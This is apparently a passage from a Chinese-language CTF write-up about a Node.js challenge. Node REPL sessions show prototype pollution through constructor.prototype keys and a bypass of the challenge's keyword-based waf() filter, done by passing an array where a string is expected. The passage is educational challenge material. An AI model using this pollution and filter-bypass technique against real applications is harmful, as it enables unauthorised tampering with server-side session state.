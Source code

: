 ```shell
$ node
Welcome to Node.js v17.0.1.
Type ".help" for more information.
> session = {}
{}
> {}['constructor']
[Function: Object]
> {}['constructor']['prototype']
[Object: null prototype] {}
> {}['constructor']['prototype']['activated'] = 24
24
> session.activated
24
```

最后一个问题是：怎么绕过 `waf()`？先看一下逻辑：

```js
function waf(str) {
    for(let bad_name of Object.getOwnPropertyNames(({}).__proto__))
        if(str.indexOf(bad_name)!==-1)
            return true;
    return false;
}

// app.get('/api/:path(*)', (req, res)=>{
let path = 'data/'+req.params.path;
let in_path = req.query.in_path||'';
let out_path = req.query.out_path||'';
let prefix = req.session.prefix ? (req.session.prefix+'/') : '';
let eval_mode = req.session.eval_enabled===1;

if(waf(in_path) || waf(out_path) || waf(prefix)) {
    res.send('Bad parameter!');
    return;
}
```

如果环境配置恰当，`out_path` 的类型可以被推断为 `string | qs.ParsedQs | string[] | qs.ParsedQs[]`，是不是除了字符串，还有别的选择？比如说，如果是个数组呢？

```shell
$ node
Welcome to Node.js v17.0.1.
Type ".help" for more information.
> function waf(str) {
...     for(let bad_name of Object.getOwnPropertyNames(({}).__proto__))
...         if(str.indexOf(bad_name)!==-1)
...             return true;
...     return false;
... }
undefined
> waf(['constructor/prototype/activated'])
false
> waf('constructor/prototype/activated')
true
```
